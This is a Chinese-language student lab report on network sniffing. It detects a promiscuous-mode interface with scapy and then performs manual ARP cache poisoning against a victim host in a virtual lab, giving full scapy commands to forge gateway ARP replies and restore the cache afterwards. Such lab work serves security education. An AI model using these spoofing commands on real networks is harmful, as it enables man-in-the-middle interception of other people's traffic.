# EXP4-网络监听

## 实验一：检测局域网中的异常终端

### 实验环境

* 受害者：Gateway（Debian10）
* 攻击者：Attacker（Kali 2021.2）

* 

### 实验步骤

1. 在受害者主机上检查网卡的「混杂模式」是否启用

   ```
   ip link show enp0s3
   ```

   受害者主机目前并未启用混杂模式：

2. 攻击者主机上开启scapy，并发送一个混杂模式探测的包给靶机。

   ```shell
   sudo su
   
   scapy
   
   pkt = promiscping("10.0.2.15")
   ```

   

3. 在受害者主机上手动开启混杂模式

   `PROMISC`字样说明已开启混杂模式

   

4. 攻击者再次在scapy终端里发送一个探测包

   可以看到攻击者收到了一个回复包，并且回复是来自受害者的（10.0.2.15）

5.  手动关闭该网卡的「混杂模式」

### 总结

* 在正常模式下，只接收目的 MAC 地址的自己的数据包，其他将一律丢弃
* 在混杂模式下，网卡并不检查目的 MAC 地址，对所有的数据包都来者不拒。
* 则构造一个目的MAC地址错误的ARP请求数据包，发给处于混杂模式下的靶机，是可以得到回应的。

---


## 实验二：手工单步“毒化”目标主机的 ARP 缓存

### 实验环境

#### 网络拓扑



如图所示网络中的节点基本信息如下：

- 攻击者主机
  - 08:00:27:66:75:e3 / eth0
  - 172.16.111.118
- 受害者主机
  - 08:00:27:0e:34:8d / eth0
  - 172.16.111.111
- 网关
  -  08:00:27:91:80:c3 / enp0s9
  - 172.16.111.1


## 实验步骤

1. 攻击者开启scapy，构造ARP请求

   ```shell
   arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")
   ```

   查看构造好的AROP请求报文详情

   ```shell
   arpbroadcast.show()
   ```

   

   

2. 发送这个 ARP 广播请求

   ```shell
   recved = srp(arpbroadcast, timeout=2)
   ```

   

   * 成功获取网关的mac地址

3. 伪造网关的 ARP 响应包，准备发送给受害者主机`172.16.111.111`。ARP 响应的目的 MAC 地址设置为**攻击者主机**的 MAC 地址

   ```
   arpspoofed=Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.111", hwdst="08:00:27:66:75:e3")
   ```

   发送上述伪造的 ARP 响应数据包到受害者主机

   ```
   sendp(arpspoofed)
   ```

   

   

   * 在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址

4. 回到攻击者主机上的 **scapy 交互式终端**继续执行命令。

   * 恢复受害者主机的 ARP 缓存记录

     * **伪装网关**给受害者发送 ARP 响应

       ```shell
       #制作新的arp伪装包
       restorepkt1 = ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:91:80:c3 ", pdst="172.16.111.111", hwdst="08:00:27:0e:34:8d")
       #发送
       sendp(restorepkt1, count=100, inter=0.2)
       ```

       

     * **伪装受害者**给网关发送 ARP 响应

       ```shell
       #制作新的arp伪装包
       restorepkt2 = ARP(op=2, pdst="172.16.111.1", hwdst="08:00:27:91:80:c3", psrc="172.16.111.111", hwsrc="08:00:27:0e:34:8d")
       # 发送
       sendp(restorepkt2, count=100, inter=0.2)
       ```

       

5. 在受害者主机上准备“刷新”网关 ARP 记录。

   ```bash
   ## 在受害者主机上尝试 ping 网关
   ping 172.16.111.1
   ## 静候几秒 ARP 缓存刷新成功，退出 ping
   ## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
   ip neigh
   ```

   

## 实验问题与解决

1. 根据课本的方法：攻击者发送伪造arp响应时不成功。

   * 在构造的arp伪装包前增加Ether（）语句即可

     ```shell
     arpspoofed=ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.111", hwdst="08:00:27:66:75:e3")
     
     # 更改为
     arpspoofed=Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.111", hwdst="08:00:27:66:75:e3")
     ```

     